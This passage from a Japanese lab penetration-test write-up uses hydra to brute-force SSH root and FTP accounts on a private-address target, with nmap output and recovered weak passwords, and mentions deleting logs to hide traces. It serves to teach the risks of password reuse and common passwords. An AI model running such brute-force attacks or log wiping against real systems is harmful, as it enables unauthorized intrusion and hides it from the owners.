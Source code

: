 流石にwprootというユーザは認証に登録されていないみたい．でもアカウントとパスワードは一致．
ということはシステムrootもシステム登録ユーザも同じでパスワードが簡単なものだろうと予想して，rootに対してsshでブルートフォース．

```
# hydra -l root -P /root/password.txt 192.168.20.16 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC – Please do not use in military or secret service organizations, or for illegal purposes.Hydra (http://www.thc.org/thc-hydra) starting at 2017-11-07 09:15:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3546 login tries (l:1/p:3546), ~222 tries per task
[DATA] attacking ssh://192.168.20.16:22/
[22][ssh] host: 192.168.20.16 login: root password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-07
```

あっさりですがrootのパスワードもゲット．
あとはrootでログインしてログなどを削除して痕跡を消して終了です．

利用サービスごとにパスワード（できればユーザアカウントも）は変更しないと一か所から推測されやすく，また「世間でよく使われるパスワード」を利用していると非常に短時間で簡単に乗っ取られてしまいますよ，というシナリオでした．

### おまけ

投稿者個人は普段はサーバ構築の際に FTP サービスを使用しないため上記シナリオではFTPを実装しませんでしたが，ターゲットマシンにFTPを実装している場合にFTPを利用したブルートフォースも追記します．
上記マシンに vsFTPd を導入してFTPポートに対してブルートフォースを仕掛けます．

まずnmapでポートを確認．

```
# nmap 192.168.20.16 -sS
 ：
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
3306/tcp open mysql
```
FTPポートが開いているので hydra でブルートフォース．

```
# hydra -L /root/user.txt -P /root/password.txt 192.168.20.16 ftp
 ：
[STATUS] 280.53 tries/min, 4208 tries in 00:15h, 9976 to do in 00:36h, 16 active
[21][ftp] host: 192.168.20.16 login: user01 password: aaa
[21][ftp] host: 192.168.20.16 login: user02 password: abc
[21][ftp] host: 192.168.20.16 login: user03 password: abc123
1 of 1 target successfully completed, 3 valid passwords found
```

シナリオ内では hydra でのアタックを HTTPベーシック認証ページに対して行ったあとにいきなり SSHによるroot奪取に行ってしまいましたが，これはあくまで「アカウントとパスワードを使い回している」という推察と「パスワードが一般的で甘い」という推察のもとでの実施でした．

本来はWordPressの登録ユーザとベーシック認証ページのユーザは別々のものですし，これが同じだったからといってOS本体のユーザアカウントと同じとは限りません．3つとも別々のアカウント情報なのです．つまり
WordPressのユーザ ≠ HTTP認証のユーザ ≠ システムのユーザ
です．がFTPで使用するユーザはOSに登録されているユーザそのものです．
システムのユーザ = sshリモートログイン可能 = ftpのユーザ
ということで，マシンを乗っ取る際にはシステムのユーザのパスワードをハッキングする必要がありますからFTPが開いているというのは格好のターゲットです．
hydraでのブルートフォースの経過時間は http＞ftp＞ssh なので，ベーシック認証のユーザとシステムユーザを同一にしているとhttpで短時間にパスワード総当たりを実施されてパスワードを推察されてしまい，ftpで実際に一般ユーザのパスワードが奪取されてしまう確率が非常に高くなります．
